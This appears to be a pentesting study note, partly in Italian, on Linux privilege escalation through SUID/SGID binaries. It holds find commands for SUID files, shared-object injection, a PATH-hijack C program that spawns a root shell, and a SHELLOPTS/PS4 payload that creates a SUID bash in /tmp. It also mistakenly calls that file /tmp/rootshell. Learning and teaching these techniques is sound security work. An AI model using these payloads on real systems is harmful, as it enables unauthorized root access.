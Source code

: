 # Privileges Escalation - Linux
# Exploiting SUID/SGID 
- **SUID**: **Set User ID**. When an executable file has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When an executable file has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Finding SUID/SGID executables
find / -type f -perm /6000 2>/dev/null
trova exe che abbiano SUID or SGID 
find / -type f -perm -6000 2>/dev/null
trova exe che hanno SUID e SGID (entrambi necessariamente)
find / -type f -perm -4000 2>/dev/null
trova exe che hanno solo SUID 
find / -type f -perm -2000 2>/dev/null
trova exe che hanno solo SGID 

FORMATO RISULTATI LS -L
<OBJECT TYPE><USER PERMISSIONS>-<GROUP PERMISSIONS> <OWNER> <GROUP> ...
dove OBJECT TYPE può essere o '.' o 'd' (directory)
se compare una 's' in USER PERMISSIONS, il file ha il bit SUID
se compare una 's' in GROUP PERMISSIONS, il file ha il bit SGID

(EQUIVALENTE A /6000)
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null` to look for executables, hoping some of them have an obsolete (so vulnerable) version (for example `/usr/sbin/exim-4.84-3`)
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- If we find something interesting, copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects
Some binaries could be vulnerable to shared objects injections.
- `strace <BINARY PATH> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <BINARY PATH>` to look for readable ASCII or Unicode characters.
  - If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`), we can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <EXPLOIT>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <BINARY PATH>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <BINARY PATH>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies Bash in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     













